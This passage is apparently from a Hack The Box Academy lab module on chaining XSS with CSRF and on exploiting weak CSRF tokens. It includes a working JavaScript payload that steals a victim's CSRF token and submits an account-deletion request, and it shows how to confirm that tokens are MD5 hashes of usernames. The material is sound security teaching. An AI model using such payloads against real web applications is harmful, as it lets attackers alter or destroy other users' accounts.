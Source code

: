 Now, if you go back to the victim's usual profile page and refresh/reload the page, you should see that his profile became "public" (notice the "Share" button that appeared):
![59](https://academy.hackthebox.com/storage/modules/153/59.png)

You just executed a CSRF attack through XSS, bypassing the same origin/same site protections in place!

Same Origin Policy cannot prevent an attacker from changing the visibility of @goldenpeacock467's profile.

Extra practice: Adapt the XSS payload above to delete @goldenpeacock467's account through CSRF.

Answer:
```javascript
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/app/delete/mhmdth.rdyy@example.com',true);
req.send();
function handleResponse(d) {
    var token = this.responseText.match(/name="csrf" type="hidden" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/app/delete', true);
    changeReq.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
    changeReq.send('csrf='+token);
};
</script>
```

The following section will focus on identifying and bypassing weak CSRF tokens to execute CSRF attacks.

## Exploiting Weak CSRF Tokens

Often, web applications do not employ very secure or robust token generation algorithms. An example is an application that generates CSRF tokens as follows (pseudocode): `md5(username)`.

How can we tell if that is the case? We can register an account, look into the requests to identify a CSRF token, and then check if the MD5 hash of the username is equal to the CSRF token's value.

Let us see this in action!

Navigate to http://csrf.htb.net and log in to the application using the credentials below:

* Email: goldenpeacock467
* Password: topcat

Open Web Developer Tools (Shift+Ctrl+I in the case of Firefox) and focus on the Network tab.

Back to the user's profile, press Change Visibility and then Make Public.

You should see a request similar to the one below. Note the value of the CSRF token:
![49](https://academy.hackthebox.com/storage/modules/153/49.png)

Execute the below command to calculate the MD5 hash of the string "goldenpeacock467" (the username):
```
user@htb[/htb]$ echo -n goldenpeacock467 | md5sum
0bef12f8998057a7656043b6d30c90a2  -
```
You will notice that the resulting hash is the same as the CSRF value! This means that the CSRF token is generated by MD5-hashing the username.
